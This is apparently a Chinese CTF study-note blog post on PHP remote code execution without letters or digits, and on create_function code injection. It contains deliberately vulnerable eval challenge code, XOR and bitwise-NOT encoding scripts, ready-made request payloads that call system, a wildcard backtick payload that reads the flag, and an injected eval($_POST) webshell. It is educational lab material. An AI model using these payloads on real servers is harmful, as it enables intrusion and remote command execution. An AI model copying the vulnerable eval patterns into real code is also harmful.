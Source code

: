 ```yaml
---
title: 20241210CTF学习笔记7
date: 2024-12-10
tags:
 - CTF
 - CTFLearn
categories:
   - 命理学 Numerology
isShowComments: true
publish: true













---
```


<Boxx/>

从0开始学习CTF，了解CTF基本规则、方法，这是开始打卡学习的第25天

[[toc]]

- 视频地址【[传送门](https://www.bilibili.com/video/BV1Lh411F7s8/)】

<!-- more -->

# 第7章：无字母RCE和create_function

## 无字母RCE

#### 例题（php7）

```php
<? php 
	if(isset($_GET['code']){
        $code=$_GET['code'];
        if(preg_match("/[a-z0-9]+/i",$code)){
            die("NO.");
        }
        eval($code);
    }else{
        highlight_file(__FILE__);
    }
?>
```

在php7里，我们想要执行一个命令，但这个命令没法包含字母和数字，需要一个变换的思想，把字母和数字变换为不是字母和数字的形式，用的是位运算-异或运算，以下是方法：

### 异或

```php
<?php
    $a = "phpinfo";
    for($i=0;$i<strlen($a);$i++){	
        echo "%".dechex(ord($a[$i])^0xff);
    }
    echo "^";
    for ($i = 0; $i <strlen($a); $i++){
        echo "%ff";
    }
?>
```

此外，我们需要知道一个php的特性：函数的动态调用

```php
//1.在上次讲了变量覆盖，涉及到了函数的动态调用
extract($_GET['arr']);
@$d($_POST['0']);

//2.这次我们换一种方式做函数的动态调用，用括号把字符串包起来，相当于调用同名函数
("phpinfo")()
("php"."info")()
```

我们回到刚才的例题，我们给地址加上以下payload，就会执行phpinfo的命令：

```
http://127.0.0.1:1234/php7_rce_php?code=(%8f%97%8f%96%91%99%90^%ff%ff%ff%ff%ff%ff%ff)();
```

同理，我们用刚刚提到的php方法，将phpinfo改为system，替换掉payload的位置，同时也对ls或者是cat flag执行异或操作，就能得到如下请求：

```
http://127.0.0.1:1234/php7_rce_php?code=(%8c%86%8c%8b%9a%92^%ff%ff%ff%ff%ff%ff)(%93%8c^%ff%ff);
```



### 取反

```php
<?php
$a="phpinfo";
echo "~(";
for($i=0;$i<strlen($a);$i++){
    echo "%".bin2hex(~$a[$i]);
}
echo ")";
```

和上边的异或方法相同，我们对phpinfo取反后，得出如下请求：

```
http://127.0.0.1:1234/php7_rce_php?code=(~(%8f%97%8f%96%91%99%90))();
```

如果我们不想要里边儿的这一层括号可以直接删除，得到如下请求，效果相同：

```
http://127.0.0.1:1234/php7_rce_php?code=(~%8f%97%8f%96%91%99%90)();
```

同理我们可以对system和ls进行取反



### 总结

取反和异或是比较基础和常用的绕过无字母和数字的webshell



### 进阶例题

```php
<?php
	error_report(0);
	//flag.php
	if(isset($_GET['code'])){
        $code=$_GET['code'];
        if(strlen($code)>18){
            die("You are really long, buti dont like more than 18cm");
        }
        if(preg_match("/\w/",$code)){
            die("i dislike it");
        }
        if(preg_match("/&|\||\^|\~|\!/",$code)){
            die("stop calculating");
        }
        if(preg_match("/\(|\)/",$code)){
            die("call function is not safe");
        }
        if(preg_match("/|{|\}|][|\]",$code)){
            die("fxcking brackets");
        }
        if(preg_match("/\\$|@|\。/",$code)){
            die("1 dou bu gei wo");
        }
        eval($code)//I believe that those noob hackers cannot hack me
    }
>
```

1. 长度不能大于18
2. \w表示字母数字下划线不能有
3. &与、|或、^异或、!非    以上都不能有
4. 不能有()括号
5. 不能有{}大括号[]中括号
6. 不能有$、@、.等符号

我们只需要做一个这样的访问请求即可：

```
http://127.0.0.1:1234/?code=?><?=`/???/???%20*`;
```

1. 这个意思是?>把php结束掉，然后<?开始一个新的php
	
> php这三个字母就是php短标签short_tag

2. <?=	表示	<? echo
3. 反引号	·	表示	执行系统命令shell_exec
4. 星号	*	表示	任意长度的任意字符
5. 问号	?	表示	单个长度的任意字符（问号匹配到了太多东西，所以执行后会有很多乱码）
6. %20	表示	空格 

最后我们执行了很多的命令，其中最重要的一条其实是

```php
shell_exec(/bin/cat/ flag);
```





## create_function

### 定义和用法：

create_function()函数有两个参数$args和$code，用于创建一个lambda样本的函数。

```php
$code = "return($a+$b);}eval($_POST['Flag']);//"
$f=create_function('$a,$b',$code);

//相当于得到：
function f($a,$b){
	return $a+$b
}
eval($_POST['Flag']);
//}
```

创建函数的过程中存在一个代码注入的漏洞，我们的思路是用花括号先把函数闭合掉，然后再把最后原本的花括号注释掉，中间用eval()函数写一个木马

